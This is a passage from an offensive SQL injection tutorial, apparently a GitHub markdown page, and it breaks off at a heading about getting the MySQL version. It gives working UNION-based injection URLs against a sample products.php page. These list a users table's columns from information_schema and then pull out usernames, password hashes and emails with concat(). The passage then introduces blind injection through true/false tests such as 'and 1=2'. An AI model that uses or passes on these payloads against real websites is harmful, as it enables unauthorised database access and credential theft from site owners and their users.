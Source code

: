   If you wanted to display the column names for a specific table the WHERE query can be used. 

   Let's say that we found table users
   ```
   http://mysite/products.php?id=5 union all select 1,column_name,3 from information_schema.columns where table_name='users'/*
   ```
  
   Now the column name in table users is displayed. Using LIMIT we can list all of the columns in the table users.

   **Note:** The quotes in the 'users' has to be added for this to work.

   Let's say we found the columns user, pass and email, to complete the query we can join them all together using concat().
   ```
   http://mysite/products.php?id=5 union all select 1,concat(user,0x3a,pass,0x3a,email) from users/*
   ```
  We should now be able to see the user:pass:email from table users.

  example: admin:hash:admin@somesite.com
 
  This section has covered SQL Injection, next we will cover Blind SQL Injection.
   



## Blind SQL Injection

Blind injection is a little more complicated than classic SQL Injection

There is very good blind SQL Injection tutorial that's also worth a read that can be found here:
```
https://spike188.wordpress.com/category/blind-sql-injection/
```

So let's dive straight in and look at the first example we will be using:
```
http://mysite/products.php?id=5
```
when we execute this webpage, we will likely see a page and articles on that page, pictures etc...

However, what happens when we want to test it for a blind SQL Injection attack? Let's take a look at what’s in the URL.
```
http://mysite/products.php?id=5 and 1=1 <--- This is always true and the page loads normally, that's ok.
```

Now for the real test
```
http://mysite/products.php?id=5 and 1=2 <--- This is false
```
Which means if some text, picture or content is missing on the returned page then that site is vulnerable to blind SQL Injection.


### 1. Get The MySQL Version
